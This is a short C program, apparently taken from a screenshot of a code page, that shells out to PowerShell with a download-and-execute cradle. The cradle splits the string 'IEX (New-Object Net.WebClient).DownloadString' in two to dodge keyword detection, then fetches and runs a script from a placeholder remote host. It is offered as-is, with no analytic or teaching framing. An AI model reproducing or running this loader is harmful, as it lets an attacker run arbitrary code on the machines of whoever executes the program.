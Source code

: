	#include<stdio.h>
	#include<stdlib.h>
	int main(){
	system("powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://x.x.x.x/a'')'; $Text=$c2+$c3; IEX(-join $Text)");
	return 0;
	}